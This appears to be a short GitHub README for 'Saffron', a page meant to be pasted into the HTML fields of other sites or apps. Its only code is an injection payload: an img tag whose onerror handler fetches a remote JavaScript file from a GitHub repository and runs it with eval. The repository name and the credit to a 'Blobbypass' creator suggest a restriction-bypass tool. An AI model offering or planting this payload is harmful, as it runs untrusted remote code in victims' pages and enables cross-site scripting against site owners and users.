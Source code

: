 # Saffron
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), ChatGPT-4o, BlackBoxAI, Canva, and GitHub.

